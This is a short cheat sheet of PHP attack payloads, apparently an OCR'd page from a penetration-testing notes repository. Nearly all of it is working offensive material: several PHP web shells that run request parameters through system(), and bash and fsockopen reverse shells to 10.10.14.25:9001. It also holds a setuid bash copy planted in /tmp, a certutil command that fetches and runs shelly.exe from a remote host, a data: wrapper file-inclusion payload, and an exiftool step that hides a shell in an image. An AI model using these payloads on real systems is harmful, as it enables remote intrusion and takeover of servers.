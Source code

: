 # Everything PHP
--------------------

```bash
<?php echo system($_REQUEST('cibbin')); ?>


<?php system($_REQUEST['cbbn']) ?>


<?php system($GET_['cmd']); ?>


<?php echo shell_exec("/bin/bash -i >& /dev/tcp/10.10.14.25/9001 0>&1");?>

echo shell_exec("cp /bin/bash /tmp/bitch;chmod +s /tmp/bitch");

$sock=fsockopen("10.10.14.25", 9001);
exec("/bin/sh -i <&3 >&3 2>&3");
```


file 1
```php
<?php 
$exec = system('certutil.exe -split -urlcache -f "http://192.168.49.121/shelly.exe" shelly.exe', $val); 
?> 
```

file 2
```php
<?php
$exec = system('shelly.exe', $val);
?>
```


PHP Wrappers:

```bash
http://10.11.1.35/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>
```

Execute command in exiftool:
```bash
exiftool -Comment='<?php echo "<pre>";
system($_GET['cmd']); ?>' shell.png;
```